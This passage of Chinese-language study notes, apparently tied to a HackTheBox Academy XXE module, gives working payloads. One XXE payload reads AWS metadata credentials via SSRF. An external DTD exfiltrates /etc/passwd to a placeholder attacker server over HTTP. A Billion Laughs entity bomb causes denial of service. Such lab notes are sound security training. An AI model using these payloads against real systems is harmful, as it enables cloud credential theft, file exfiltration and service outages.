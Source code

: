 * `data=` 參數裡就是 `/etc/passwd` 內容。

## <mark style="color:red;">6. 連鎖XXE漏洞</mark>

#### **🔹 XXE + SSRF**

*   若應用允許訪問內部服務，我們可以**透過XXE進行SSRF攻擊**，如請求AWS Metadata：

    ```xml
    <!DOCTYPE email [
      <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
    ]>
    <email>
      &aws;
    </email>
    ```

    * 如果成功，可能獲取雲端伺服器的憑據，進一步控制伺服器！

#### **🔹 XXE + RCE（遠端代碼執行）**

*   如果應用允許解析DTD，則可以透過內部Java類調用命令：

    ```xml
    <!DOCTYPE foo [
      <!ENTITY % remote SYSTEM "http://你的伺服器/evil.dtd">
      %remote;
    ]>
    ```

    **evil.dtd 內容：**

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://你的伺服器/?data=%file;'>">
    %eval;
    %exfil;
    ```

    * 這將會透過**外部HTTP請求洩露`/etc/passwd`的內容**，可進一步嘗試RCE。

#### **🔹 XXE + DoS（拒絕服務攻擊）**

*   `Billion Laughs Attack`（遞歸炸彈）導致伺服器崩潰：

    ```xml
    <!DOCTYPE data [
      <!ENTITY a0 "HAHA">
      <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
      <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
      <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    ]>
    <data>
      &a3;
    </data>
    ```

    * 這樣會導致伺服器無限解析，進而崩潰（DoS）。

## <mark style="color:red;">6.Skills Assessment</mark>

[<mark style="color:red;">https://academy.hackthebox.com/module/134/section/1219</mark>](https://academy.hackthebox.com/module/134/section/1219)
